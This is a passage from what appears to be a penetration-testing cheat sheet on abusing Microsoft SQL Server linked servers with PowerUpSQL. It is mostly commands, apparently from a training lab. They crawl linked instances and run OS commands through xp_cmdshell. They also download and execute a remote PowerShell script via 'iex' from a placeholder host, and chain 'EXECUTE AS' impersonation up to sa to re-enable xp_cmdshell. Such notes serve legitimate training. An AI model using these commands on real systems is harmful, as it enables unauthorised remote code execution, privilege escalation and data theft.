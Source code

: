 ```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mysql -Verbose
select * from openquery("<instanceName>",'select * from openquery("<linkedInstance>",''select * from master..sysservers'')')
```

### <span style="color:#F1C232">3. Execute commands on target server</span>

```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mysql -Query "exec master..xp_cmdshell 'whoami'" | ft
```

## <span style="color:lightgreen">Extra Commands</span>

### <span style="color:#F1C232">1. Download file on target server</span>

```powershell
Get-SQLServerLinkCrawl -Instance <instanceName> -Query 'exec master..xp_cmdshell "powershell -c iex (new-object net.webclient).downloadstring(''http://IP:8080/Invoke-HelloWorld.ps1'',''C:\Windows\Temp\Invoke-HelloWorld.ps1'')"'
```

### <span style="color:#F1C232">2. Impersonate an user</span>

```powershell
Invoke-SQLAuditPrivImpersonateLogin -Instance <instanceName> -Exploit -Verbose
#Then, we can EXECUTE AS, and chained the 'EXECUTE AS'
Get-SQLServerLinkCrawl -Verbose -Instance <instanceName> -Query "EXECUTE AS LOGIN = 'dbuser'; EXECUTE AS LOGIN = 'sa'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE; EXEC master..xp_cmdshell 'powershell -c iex (new-object net.webclient).downloadstring(''http://IP/Invoke-HelloWorld.ps1'')'"
```

### <span style="color:#F1C232">3. Basic SQL Server queries for DB enumeration</span>

Also works with **Get-SQLServerLinkCrawl**
```powershell
#View all db in an instance
Get-SQLQuery -Instance <instanceName> -Query "SELECT name FROM sys.databases"
#View all tables
Get-SQLQuery -Instance <instanceName> -Query "SELECT * FROM dbName.INFORMATION_SCHEMA.TABLES" 
#View all cols in all tables in a db
Get-SQLQuery -Instance <instanceName> -Query "SELECT * FROM dbName.INFORMATION_SCHEMA.columns"
#View data in table
Get-SQLQuery -Instance <instanceName> -Query "USE dbName;SELECT * FROM tableName"
```

# Tools Used
